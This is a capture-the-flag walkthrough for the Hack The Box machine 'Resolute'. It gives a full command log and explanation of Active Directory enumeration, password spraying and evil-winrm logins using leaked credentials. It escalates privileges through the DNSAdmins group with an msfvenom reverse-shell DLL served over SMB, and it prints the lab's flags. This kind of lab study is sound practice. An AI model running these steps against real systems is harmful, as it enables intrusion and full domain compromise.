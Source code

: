 # Resolute - Medium

```shell
sudo vim /etc/hosts
#add resolute.htb

nmap -T4 -p- -A -Pn -v 10.10.10.169

crackmapexec smb 10.10.10.169
#this also shows host name and domain name

smbclient -L \\\\10.10.10.169
#no output

smbmap -H 10.10.10.169
#no output

rpcclient -U "" -N 10.10.10.169
#for enumeration

#in rpcclient
enumdomusers
#get usernames

enumdomgroups
#get group names

vim users.txt
#copy usernames

enum4linux 10.10.10.169
#get valid users
#for one user, this shows password in description

vim pass.txt
#add the password

crackmapexec smb -u users.txt -p pass.txt --shares 10.10.10.169 --continue-on-success
#this shows the password is valid for user 'melanie'

evil-winrm -u "melanie" -p "Welcome123\!" -i 10.10.10.169
#we get shell

#get user flag from melanie Desktop

#for enumeration
upload /home/sv/Tools/winPEASx64.exe

.\winPEASx64.exe
#go through output

upload /home/sv/Tools/SharpHound.exe

.\SharpHound.exe

#download zip file generated
download C:\Users\melanie\20221227053134_BloodHound.zip /home/sv/resolute.zip

#in attacker machine
#run neo4j and bloodhound
sudo neo4j console

cd /opt/BloodHound/BloodHound-linux-x64

./BloodHound --no-sandbox
#open the .zip file in BloodHound
#check for privesc

#manual enumeration
#in evil-winrm session
cd C:\

#check hidden directories as well
gci -force
#shows hidden folder

cd PSTranscripts

gci -force
#this shows another folder

cd 20191203

gci -force
#we have a file, we can go through it
#this file contains a potential password for 'ryan'

#on attacker machine
evil-winrm -u ryan -p "Serv3r4Admin4cc123\!" -i 10.10.10.169
#we get shell as ryan

type C:\Users\ryan\Desktop\note.txt
#this shows that system changes will be regularly reverted

whoami /groups
#shows that we are a part of Contractors & DNSAdmins groups

#follow DNSAdmins dll exploit

#on attacker machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f dll > sv.dll
#generates DLL payload

nc -nvlp 4444
#setup listener

smbserver.py share .
#start smb server

#in evil-winrm session as ryan
dnscmd.exe /config /serverlevelplugindll \\10.10.14.2\share\sv.dll
#executes payload

sc.exe \\resolute stop dns
#stops dns service

sc.exe \\resolute start dns
#starts dns service
#this gives us shell on our listener

#in reverse shell
whoami
#system user
```

* Open ports & services:

  * 53 - domain - Simple DNS Plus
  * 88 - kerberos-sec - Kerberos
  * 135 - msrpc - RPC
  * 139 - netbios-ssn - netbios-ssn
  * 389 - ldap - AD LDAP
  * 445 - microsoft-ds - Windows Server 2016 Standard 14393 microsoft-ds
  * 593 - ncacn_http - RPC over HTTP 1.0
  * 3268 - ldap - AD LDAP
  * 5985 - http - HTTPAPI httpd 2.0
  * 9389 - mc-nmf - .NET Message Framing
  * 47001 - http - HTTPAPI httpd 2.0
  * 49664 - msrpc - RPC

* ```nmap``` gives us the domain 'megabank.local'.

* We can get host and domain name using ```crackmapexec``` as well.

* We can attempt enumeration of SMB shares using ```smbclient``` and ```smbmap``` but we do not get anything.

* For further enumeration, we can use ```rpcclient``` and its built-in functions like ```enumdomusers``` and ```enumdomgroups``` to enumerate users and groups on the machine.

* We can copy the list of usernames, clean it up and write it to a file - we now have a list of valid users.

* Similarly, we can try using ```enum4linux``` - this also gives us a list of usernames.

* Also, in the ```enum4linux``` output, in the description for the account of Marko Novak, the password is disclosed in cleartext.

* So, we now have the password 'Welcome123!' for user 'marko'; we can try to check if this password is legit using ```crackmapexec```.

* This shows that the password found is valid for user 'melanie' - now we can login using ```evil-winrm```.

* After getting shell, we can get the user flag from melanie's Desktop.

* For enumeration, we can try using ```winpeas``` - this can be transferred to the victim session using 'upload' and 'download' commands in ```evil-winrm```.

* By running ```winpeas```, we do not get a lot of pointers for privesc.

* As we know that this is an Active Directory environment, we can try to upload ```SharpHound``` and run it.

* As a result, a .zip file is generated; we can download this and view it on attacker machine using ```bloodhound```.

* In the GUI, we can mark the node for user Melanie as Owned; using the pre-built analytic queries, we now need to find privesc routes.

* We can try to go through all of the queries, but we do not get any significant privesc route yet.

* So, we can go back to enumerating the machine manually to check for privesc.

* Now, we can list hidden files in PowerShell using the ```force``` flag, when used with ```Get-ChildItem```.

* Using this in the C:\ directory, we can see that there is a hidden folder 'PSTranscripts'.

* Using ```gci -force```, we eventually get a PowerShell transcript file; we can go through this.

* Now, this file contains a cleartext password "Serv3r4Admin4cc123!" for the user 'ryan'.

* Using ```evil-winrm```, we are able to get a shell as 'ryan' now.

* Now, there is a .txt file on ryan's Desktop - this reads that any system changes (except those related to Administrator account) will be reverted within a minute.

* We can continue our enumeration here; on ```bloodhound``` we can now mark 'ryan' as Owned.

* We can also see that we are a part of "Contractors" and "DNSAdmins" groups.

* After Googling for exploits related to DNSAdmins group, we can see that members of this group can run DLL files with elevated privileges.

* To exploit this privilege, we need to craft a malicious DLL file; for which we can use ```msfvenom```.

* Following the exploit steps, after creating the payload, we need to host a SMB server to share the file (instead of directly uploading it to victim machine).

* After setting up our listener, we can execute the crafted DLL payload using ```dnscmd.exe```.

* Then, we need to stop and restart the 'dns' service, keeping in mind that every minute the changes would be reset.

* Once we start the 'dns' service, we get a shell on our listener as Administrator; we can now read the root flag.

```markdown
1. User flag - f216624f6e8c4eab3d558fa0912c3146

2. Root flag - d8a23969e294b64bfe8c81926438ff6e
```
